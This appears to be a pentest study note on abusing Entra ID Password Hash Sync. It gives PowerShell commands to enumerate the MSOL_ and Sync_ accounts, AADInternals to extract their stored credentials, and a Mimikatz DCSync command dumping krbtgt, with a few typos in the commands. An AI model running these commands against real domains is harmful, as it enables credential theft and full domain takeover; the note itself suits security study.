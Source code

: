 # Password Hash Sync(PHS) 
- it syncs users and a hash of their password hashes (not clear-text or original hashes) from on-prem to Entra ID
- the simplest and most popular method for getting a hybrid identity
- PHS is required for features like Identity Protection and AAD Domain Services
- Hash synchronization takes place every 2 minutes
- When a user tries to access any Azure resource, the authentication takes place on Entra ID
- built-in security groups are not synced
- by default, password expiry and account expiry are not reflected in Entra ID. That means a user whose on-prem password is expired can continue to access Azure resources using the old password

![[Pasted image 20241123055540.png]]

## PHS - Abuse
When PHS is configured:
- An Account with name `MSOL_<installationID>` is automatically created in on-prem AD. For example, `MSOL_782bef6aa0a9` this account has replication permissions(DCSync) in the on-prem AD.
- An account `Sync_<name of on-prem ADConnect Server>_installationID` is created in Entra ID. For example, `Sync_DEFENG-ADCNCT_782bef6aa0a9` this account used to have the ability to reset password for any user including the tenant owner, but permissions were removed in August 2024
- Password for both accounts are stored in SQL server on the server where Entra ID Connect is installed and is is possible to extract them in clear-text if you have admin privileges on the server. 


# Lateral Movement
You can Enumerate the server where Entra connect is installed using the following on-prem enumeration (assuming that the server is domain joined - which is the Microsoft recommended method)
- Using the ActiveDirectory module
`Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Properties * | select SanAccountName, Description | fl`

- Or from Enta ID (Below command uses the Azure AD module)
` Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}`

# On-Prem Dominance
Once the Entra connect server is compromised. Use the below commands from the AADInternals module to extract credentials
` Get-AADIntSyncCredentials`

Using the creds of MSOL_* account, we can run DCSync against the on-prem AD
```
runas /netonly /user:defeng.corp\MSOL_782bef6aa09 cmd Invoke-Mimikatz -Command '"lsadump::dcdync /user:defeng\krbtgt /domain:defeng.corp /dc:defeng-dc.defeng.corp"'
```